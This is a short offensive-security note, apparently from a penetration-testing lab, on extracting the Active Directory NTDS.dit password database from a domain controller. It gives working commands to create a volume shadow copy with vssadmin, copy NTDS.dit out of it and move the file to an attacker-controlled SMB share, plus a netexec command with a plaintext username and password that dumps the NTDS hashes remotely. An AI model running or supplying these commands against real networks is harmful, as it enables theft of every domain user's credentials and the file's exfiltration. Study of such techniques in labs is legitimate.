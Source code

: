 The`NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model)
### Shadow Copy
We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location
```powershell
vssadmin CREATE SHADOW /For=C:
```

Copy NTDS.dit from the VSS
```powershell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\ProgramData\NTDS.dit
```

Copy over to our machine
```powershell
cmd.exe /c move C:\ProgramData\NTDS.dit \\10.10.15.30\CompData 
```

### Netexec 
```shell
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
